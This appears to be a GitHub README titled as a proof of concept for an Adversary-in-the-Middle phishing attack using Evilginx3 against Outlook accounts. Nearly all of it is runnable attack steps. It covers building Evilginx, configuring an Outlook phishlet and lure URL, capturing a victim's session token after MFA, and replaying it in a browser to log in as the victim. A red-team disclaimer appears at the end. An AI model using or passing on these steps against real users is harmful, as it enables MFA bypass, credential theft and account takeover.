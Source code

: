 # AiTM Attack PoC with Evilginx3 (Local Deployment)

**Author**: Bahtiyar Yusuf  
**Date**: Updated for Evilginx3 — July 2024  
**Purpose**: Demonstrate Adversary-in-the-Middle (AiTM) phishing attack using Evilginx3  
**Use Case**: Red team & educational use **only**

---

## 1. Register a Domain Name

Use any domain registrar to purchase a domain (preferably a cheap TLD):

- [Truehost](https://truehost.com/cloud/)
    
- [GoDaddy](https://www.godaddy.com/)
    
- [IONOS](https://www.ionos.com/)
    

---

## 2. Prepare Local Ubuntu/Kali Machine

Ensure you have:

- A machine running Ubuntu/Kali Linux
    
- Root access
    
- Open ports: **80**, **443**, **53** (used by Evilginx)
    

If running behind a NAT (home router), configure **port forwarding**:

- Forward TCP ports 80 and 443
    
- Forward UDP port 53
    

Alternatively, you can expose your local service using tools like:

- [Cloudflare Tunnel](https://developers.cloudflare.com/cloudflare-one/connections/connect-apps/)
    
- [Ngrok](https://ngrok.com/) (limited SSL cert support for Evilginx)
    

---

## 3. Get Your Local IP

Find your local IP address:

```bash
ip a | grep inet
```

Example output: `192.168.1.100`

You’ll use this IP when configuring Evilginx.

---

## 4. Install Evilginx3 Locally

### Become root

```bash
sudo su -
apt update && apt upgrade -y
```

### Install dependencies

```bash
apt install curl git make -y
```

### Install Golang (latest supported)

```bash
curl -OL https://golang.org/dl/go1.21.6.linux-amd64.tar.gz
rm -rf /usr/local/go && tar -C /usr/local -xzf go1.21.6.linux-amd64.tar.gz
```

### Set Go environment

```bash
echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
go version
```

---

## 5. Build and Run Evilginx3

```bash
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2/
make
```

If you see port 53 error:

```bash
systemctl disable systemd-resolved
systemctl stop systemd-resolved
rm /etc/resolv.conf
echo "nameserver 8.8.8.8" > /etc/resolv.conf
```

Then start Evilginx:

```bash
sudo ./bin/evilginx
```

---

## 6. Evilginx Configuration (Local IP or Public Domain)

If you're only testing locally:

```bash
config domain yourdomain.com
config ip 192.168.1.100
config redirect_url https://outlook.com
```

If you're using a real domain:

- Create A records for:
    
    - `account.yourdomain.com`
        
    - `login.yourdomain.com`
        
    - `outlook.yourdomain.com`
        
- Point them to your public IP (from ISP or port-forwarded router)
    

---

## 7. Setup and Use Outlook Phishlet

```bash
phishlets hostname outlook yourdomain.com
phishlets enable outlook
lures create outlook
lures edit 0 path mail
```

> Phishing URL: `https://outlook.yourdomain.com/mail`

---

## 8. Capture and Replay Session

1. Victim logs in → MFA prompt → Token captured
    
2. Use command:
    

```bash
sessions
sessions <id>
```

3. Copy token
    
4. Use **Cookie-Editor** browser extension:
    
    - Clear cookies
        
    - Import token
        
    - Navigate to `https://outlook.live.com/owa`
        

Boom 💥 — attacker is logged in as victim!

---

## 🔐 Legal Disclaimer

This guide is for **educational and authorized penetration testing purposes only**. Unauthorized access to systems is **illegal** and unethical.

---

## 📎 Reference

- Evilginx3 GitHub: [https://github.com/kgretzky/evilginx2](https://github.com/kgretzky/evilginx2)
    
- Bahtiyar Yusuf on [LinkedIn](https://www.linkedin.com/in/bahtiyar-yusuf/)